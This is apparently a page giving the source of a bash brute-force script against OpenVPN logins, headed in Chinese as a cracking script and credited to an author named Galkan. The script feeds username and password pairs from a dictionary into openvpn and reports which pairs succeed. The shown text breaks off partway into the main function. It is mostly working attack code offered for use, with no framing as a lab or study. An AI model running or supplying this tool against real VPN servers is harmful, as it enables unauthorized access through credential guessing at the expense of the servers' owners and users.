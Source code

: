 *爆破脚本：*

```bash
#!/bin/bash
# By Galkan 

openvpn_binary_path="/usr/sbin/openvpn"

function brute_force()
{
    brute_file="`mktemp /tmp/brute_force_openvpn_$USER.XXXXXX`"
    output_file="`mktemp /tmp/brute_force_openvpn_$USER.XXXXXX`"

    rm -f $brute_file $output_file

    user_name="$1"
    password="$2"

    echo "$user_name" > "$brute_file"
    echo "$password" >> "$brute_file"

    $openvpn_binary_path --config $openvpn_config_file --auth-user-pass "$brute_file" > $output_file &
    
    while [ 1 ]
    do
        if [ -f "$output_file" ]
        then
            cat $output_file | grep -q "Options error"
            if [ $? -eq 0 ]
            then
                echo "ERROR: `cat $output_file | grep "Options error"`"
                break
            fi

            cat $output_file | grep -q "SIGTERM\[soft,auth-failure\] received, process exiting" 
            if [ $? -eq 0 ]
            then
                echo "$user_name:$password -> FAILURE"
                break   
            fi

            cat $output_file | grep -q "Initialization Sequence Completed" 
            if [ $? -eq 0 ]
            then
                echo "$user_name:$password -> SUCCESS"
                break   
            fi
        else
            continue
        fi
    done
    
    openvpn_pid="`pidof openvpn`"
    

    rm -f $brute_file $output_file 
}



function main()
{
    dict_file="$1"
```